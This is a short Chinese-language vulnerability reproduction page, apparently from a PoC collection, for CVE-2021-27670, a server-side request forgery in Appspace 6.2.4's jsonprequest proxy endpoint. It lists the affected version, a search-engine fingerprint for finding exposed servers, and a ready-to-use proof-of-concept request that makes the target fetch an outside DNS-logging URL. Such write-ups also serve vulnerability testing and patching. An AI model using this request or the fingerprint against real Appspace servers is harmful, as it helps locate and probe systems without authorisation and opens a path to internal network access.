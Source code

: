 # Appspace jsonprequest SSRF漏洞 CVE-2021-27670

## 漏洞描述

Appspace 6.2.4存在漏洞，允许通过api/v1/core/proxy/jsonprequest接口来进行服务端请求伪造，危害系统安全。

## 漏洞影响

<a-checkbox checked>Appspace 6.2.4</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Sign-in-to-Appspace-Core"</a-checkbox></br>

## 漏洞复现

登录页面为

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1630488521981-cac80156-754a-4388-9f0e-f1b32a25bdca.png)

验证POC

```python
/api/v1/core/proxy/jsonprequest?objresponse=false&websiteproxy=true&escapestring=false&url=http://lo2z02.dnslog.cn
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1630488586297-b2ee6e6c-6739-494c-ad7f-39eeb43a486e.png)